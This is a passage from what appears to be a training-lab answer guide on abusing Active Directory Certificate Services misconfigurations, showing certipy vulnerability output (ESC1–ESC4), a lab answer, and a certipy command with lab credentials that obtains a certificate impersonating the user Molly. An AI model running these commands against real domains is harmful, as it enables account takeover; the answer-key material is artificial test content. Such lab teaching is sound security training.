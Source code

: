 ```
    Minimum RSA Key Length              : 2048
    Permissions
      Object Control Permissions
        Owner                           : LAB.LOCAL\Administrator
        Full Control Principals         : LAB.LOCAL\Authenticated Users
        Write Owner Principals          : LAB.LOCAL\Authenticated Users
        Write Dacl Principals           : LAB.LOCAL\Authenticated Users
        Write Property Principals       : LAB.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'LAB.LOCAL\\Authenticated Users' can enroll and template can be used for any purpose
      ESC3                              : 'LAB.LOCAL\\Authenticated Users' can enroll and template has Certificate Request Agent EKU set
      ESC4                              : 'LAB.LOCAL\\Authenticated Users' has dangerous permissions
```

Answer: `EnrolleeSuppliesSubject`

# ESC4

## Question 2

### "Abuse the ESC4 misconfiguration and submit Molly's NT Hash."

From the previous question, students have abused the `ESC4` to render the `ESC4` template vulnerable to `ESC1`, therefore, to abuse it, students need to use the `req` command of `certipy`, specifying the template `ESC4` for the `-template` option and the `UPN` `Molly` for the `-upn` option; students will attain a `PFX` certificate for the `Molly` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Molly
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Molly

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 69
[*] Got certificate with UPN 'Molly'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'molly.pfx'
```
